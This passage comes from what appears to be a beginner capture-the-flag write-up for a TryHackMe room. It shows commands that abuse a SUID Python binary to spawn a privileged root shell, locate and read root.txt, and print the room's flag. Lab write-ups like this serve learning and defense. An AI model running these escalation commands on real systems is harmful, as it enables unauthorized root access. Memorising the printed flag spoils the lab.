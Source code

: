 
Since it already had SUID permissions, I could negate the first command.

```bash
$ /bin/bash
python -c 'import pty;pty.spawn("/bin/bash")'
bash-4.4$  python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
#
```

Essentially, this command first spawns a new bash shell. Then, it spawns a pseudo-terminal which allows me to stablise
the shell, which allows me to use commands like `clear` and `Ctrl+C`, for simplicity.

Finally for the most important command, it, within the spawned Bash shell, uses Python to replace the current process
with a new shell, which is `/bin/sh` with the `-p` flag, which makes it a privileged shell.

Seeing the `#` symbol in the terminal showed that I successfully gained root access!

## Getting the Flag (Again)

Now, let's get the `root.txt` flag. Once again, I had to locate the file.

```bash
# find / -name root.txt 2>/dev/null
```

The flag was in `/root/root.txt`.

```bash
# cat /root/root.txt
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```

Wahoo! We got the flag :)

# Conclusion

This was an interesting and beginner-friendly room, with lots of learning points. I learnt about the various exploits
that can be used for bypassing file upload restrictions, and exploiting SUID files. Pretty cool!
